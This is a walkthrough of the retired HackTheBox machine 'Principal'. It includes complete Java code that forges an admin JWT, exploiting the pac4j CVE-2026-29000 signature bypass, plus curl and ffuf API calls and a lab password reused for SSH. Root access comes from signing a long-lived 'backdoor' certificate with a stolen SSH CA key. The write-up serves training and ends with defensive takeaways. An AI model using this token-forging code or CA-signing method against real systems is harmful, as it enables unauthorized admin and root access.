


+++
title = "Principal — from unverified JWT claims to trusted SSH certificates"
date = "2026-03-12"
date_source = "source-created"
platform = "HackTheBox"
box_status = "retired"
difficulty = "Medium"
tags = ["Linux", "JWT", "API security", "SSH certificates"]
summary = "A JWT validation flaw unlocked an operations API. An exposed, reused secret then led to a service account that could sign SSH certificates trusted for root access."
draft = false
kind = "solve"
publication_approved = true
+++

## Overview

Principal involved two different forms of trust: an application accepted claims without validating their signature, and an SSH server trusted certificates signed by a key accessible to a service account. Between those boundaries, a secret exposed through the API was reused as a host password.

The chain ended in root SSH access. I adapted the JWT technique from published research, discovered the application's key endpoint and expected claims, then followed an exposed credential into the SSH certificate infrastructure. `$IP` is the assigned Principal address in the workstation commands below.

## Identifying the authentication surface

The scan exposed SSH and a Jetty application on port 8080. The HTTP response advertised `pac4j-jwt/6.0.3`, while the page described an internal operations dashboard. The library version was a stronger research lead than the custom dashboard's version label.

Researching that version led to CVE-2026-29000. The [pac4j advisory](https://www.pac4j.org/blog/security-advisory-pac4j-jwt-jwtauthenticator.html) confirms a `JwtAuthenticator` vulnerability and fixes in versions 4.5.9, 5.7.9, and 6.3.3. The technical approach came from [CodeAnt's original research](https://www.codeant.ai/security-research/pac4j-jwt-authentication-bypass-public-key).

The usual `/.well-known/jwks.json` route was absent. Following the login API namespace instead led to `/api/auth/jwks`, which returned an RSA public key.

```bash
ffuf -c -t 50 -u "http://$IP:8080/api/FUZZ" \
  -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -fw 3
curl -s "http://$IP:8080/api/auth/jwks" -o jwks.json
```



Public keys are not secrets. The failure was accepting an encrypted token as authentic without requiring a valid signature over its claims.

## Separating encryption from identity

The exploit construction placed an unsigned `PlainJWT` inside an encrypted JWE wrapper. The vulnerable validation path decrypted the wrapper but skipped signature verification when the inner token was not a `SignedJWT`. This allowed attacker-selected claims to reach the application.

I first used an administrator subject with the claim structure from the example code. Some API responses changed, but the dashboard still reported an unknown role and protected endpoints remained forbidden. A change from 401 to 404 was only a clue; it did not establish administrator authorization.

The decisive adjustment was matching the application-specific claim:

```json
{
  "sub": "admin",
  "role": "ROLE_ADMIN"
}
```

The Java builder used Nimbus JOSE JWT 9.31. The RSA key requires both the base64url-encoded modulus (`n`) and exponent (`e`) from the application's JWKS. I used those fields to construct the public key, then encrypted an unsigned inner token.

I saved the following as `src/main/java/com/mycompany/app/JwtBuilderExample.java`. The filename must match the class name, including its capitalization. The modulus below belongs to this lab instance; a different instance may advertise a different key.

```java
package com.mycompany.app;

import com.nimbusds.jwt.JWTClaimsSet;
import com.nimbusds.jwt.PlainJWT;
import com.nimbusds.jose.JWEAlgorithm;
import com.nimbusds.jose.EncryptionMethod;
import com.nimbusds.jose.Payload;
import com.nimbusds.jose.JWEObject;
import com.nimbusds.jose.JWEHeader;
import com.nimbusds.jose.crypto.RSAEncrypter;
import com.nimbusds.jose.util.Base64URL;
import com.nimbusds.jose.jwk.RSAKey;
import java.security.interfaces.RSAPublicKey;
import java.util.Date;

public class JwtBuilderExample {
    public static void main(String[] args) throws Exception {
        JWTClaimsSet claims = new JWTClaimsSet.Builder()
            .subject("admin")
            .claim("role", "ROLE_ADMIN")
            .claim("email", "attacker@evil.com")
            .expirationTime(new Date(System.currentTimeMillis() + 3_600_000))
            .build();

        System.out.println("Generated JWT Claims Set:");
        System.out.println(claims.toJSONObject());
        PlainJWT innerJwt = new PlainJWT(claims);

        String modulus = "lTh54vtBS1NAWrxAFU1NEZdrVxPeSMhHZ5NpZX-WtBsdWtJRaeeG61iNgYsFUXE9j2MAqmekpnyapD6A9dfSANhSgCF60uAZhnpIkFQVKEZday6ZIxoHpuP9zh2c3a7JrknrTbCPKzX39T6IK8pydccUvRl9zT4E_i6gtoVCUKixFVHnCvBpWJtmn4h3PCPCIOXtbZHAP3Nw7ncbXXNsrO3zmWXl-GQPuXu5-Uoi6mBQbmm0Z0SC07MCEZdFwoqQFC1E6OMN2G-KRwmuf661-uP9kPSXW8l4FutRpk6-LZW5C7gwihAiWyhZLQpjReRuhnUvLbG7I_m2PV0bWWy-Fw";
        RSAKey rsaKey = new RSAKey.Builder(
            new Base64URL(modulus), new Base64URL("AQAB")
        ).build();
        RSAPublicKey publicKey = rsaKey.toRSAPublicKey();

        JWEObject token = new JWEObject(
            new JWEHeader.Builder(JWEAlgorithm.RSA_OAEP_256, EncryptionMethod.A256GCM)
                .contentType("JWT").build(),
            new Payload(innerJwt.serialize())
        );
        token.encrypt(new RSAEncrypter(publicKey));
        System.out.println("Generated Malicious JWT:");
        System.out.println(token.serialize());
    }
}
```

The standalone builder only needs Nimbus. This reduced `pom.xml` retains the Java 11 target and the Nimbus version used in the lab; pac4j client libraries and JUnit are unnecessary for this class:

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>
  <groupId>com.mycompany.app</groupId>
  <artifactId>MyApp</artifactId>
  <version>1.0-SNAPSHOT</version>
  <properties>
    <maven.compiler.source>11</maven.compiler.source>
    <maven.compiler.target>11</maven.compiler.target>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
  </properties>
  <dependencies>
    <dependency>
      <groupId>com.nimbusds</groupId>
      <artifactId>nimbus-jose-jwt</artifactId>
      <version>9.31</version>
    </dependency>
  </dependencies>
</project>
```

From the directory containing `pom.xml`, I compiled and ran the builder:

```bash
mvn clean compile
mvn exec:java -Dexec.mainClass="com.mycompany.app.JwtBuilderExample"
```

`mvn clean install` also builds the project, but a separate install step is not required to run this class. The program prints its claims and then the serialized token. I checked that the claims contained `role=ROLE_ADMIN` and copied the final token into the shell variable `JWT`. The expiration and encrypted token change between runs, so a previously generated token is not a reusable output example.

With the updated token, `/api/users` and `/api/settings` became accessible:

```bash
curl -s "http://$IP:8080/api/users" -H "Authorization: Bearer $JWT" | jq
curl -s "http://$IP:8080/api/settings" -H "Authorization: Bearer $JWT" | jq
```



## Moving from API access to SSH

The API identified `svc-deploy` and the SSH automation directory `/opt/principal/ssh`. Settings also exposed a security-related secret. Testing it as the `svc-deploy` SSH password succeeded, demonstrating reuse across the application and host boundary.

```json
"encryptionKey": "D3pl0y_$$H_Now42!"
```

```bash
ssh svc-deploy@$IP
```

I entered the recovered value at the password prompt.

Once on the host, I found a CA private key in the SSH automation directory. Its accompanying README described certificate issuance for deployments. The SSH configuration confirmed the trust relationship:

```text
PubkeyAuthentication yes
PasswordAuthentication yes
PermitRootLogin prohibit-password
TrustedUserCAKeys /opt/principal/ssh/ca.pub
```

Access to the signing key allowed a certificate to be issued for an attacker-controlled public key with `root` as its principal. This was abuse of a trusted signer, not a cryptographic break of SSH.

On the workstation, I generated a keypair and transferred only the public key:

```bash
ssh-keygen -t ed25519 -f attacker_key -N ''
scp attacker_key.pub svc-deploy@$IP:~/attacker_key.pub
```

In the `svc-deploy` session, I signed it with the CA key:

```bash
ssh-keygen -s /opt/principal/ssh/ca -I 'backdoor' -n root -V +520w ~/attacker_key.pub
```

`-n root` selects the certificate principal. The long validity requested with `-V` also illustrates the scope of control provided by direct access to the CA private key.

## Troubleshooting the certificate login

My first login attempt still prompted for a password. I briefly investigated an H2 database, but the simpler explanation was in the certificate workflow: I had generated the signed certificate on the target and had not copied it back to the SSH client.

After retrieving the corresponding `attacker_key-cert.pub` alongside `attacker_key`, authentication succeeded:

```bash
scp svc-deploy@$IP:~/attacker_key-cert.pub .
ssh -i attacker_key root@$IP
```

The [OpenSSH certificate documentation](https://man.openbsd.org/ssh-keygen#CERTIFICATES) explains the relationship between a key, its signed certificate, and the principals allowed by that certificate. A private key by itself does not supply the certificate the server must validate.

## Defensive takeaways

- Apply the pac4j security updates and reject unsigned claims wherever signatures are required.
- Test application authorization separately from token parsing and authentication.
- Keep secrets out of general settings responses and avoid reusing them as host credentials.
- Isolate SSH CA signing keys and restrict the identities and validity periods a deployment signer can authorize.

## What I learned

I needed to validate each trust transition independently. A syntactically accepted token did not yet grant the intended role, and possessing a private key did not mean the client was presenting its certificate. Both problems became clearer when I checked the exact evidence at each boundary.
